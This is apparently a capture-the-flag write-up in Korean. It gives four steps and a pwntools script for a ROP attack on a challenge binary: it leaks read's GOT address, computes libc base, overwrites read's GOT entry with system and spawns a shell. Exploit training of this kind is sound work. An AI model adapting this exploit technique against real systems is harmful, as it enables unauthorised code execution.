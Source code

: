1. write 함수를 이용해서 read 주소를 릭한다. 여기서 릭한 주소는 나중에 libc base 주소를 구할 때 사용
2. read 함수를 이용해서 bss에 `/bin/sh\x00`을 입력 받는다.
3. read 함수를 이용해서 read got를 system 함수의 주소로 덮는다.
4. read 함수를 호출하면 system 함수가 호출 될 것 이고, 이때 인자로는 bss를 넘겨주면 쉘이 따진다.<br>

```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3021)
e = ELF("./rop")

write_got = e.got['write']
write_plt = e.plt['write']
read_got = e.got['read']
read_plt = e.plt['read']
pppr = 0x8048509
bss = e.bss()
read_offset = 0xd4350
system_offset = 0x3a940

log.info('write@plt : {}'.format(hex(write_plt)))
log.info('write@got : {}'.format(hex(write_got)))
log.info('read@plt : {}'.format(hex(read_plt)))
log.info('read@got : {}'.format(hex(read_got)))

#BOF
payload = "a" * 140 # buffer + sfp

payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(read_got)
payload += p32(4)

payload += p32(read_plt)
payload += "aaaa"
payload += p32(bss)

p.sendline(payload)

leak = u32(p.recv(4))
libc_base = leak - read_offset
system_addr = libc_base + system_offset
log.info('libc_base addr : {}'.format(hex(libc_base)))
log.info('system addr : {}'.format(hex(system_addr)))

payload = "/bin/sh\x00"
payload += p32(system_addr)
	
p.sendline(payload)
p.interactive()
```
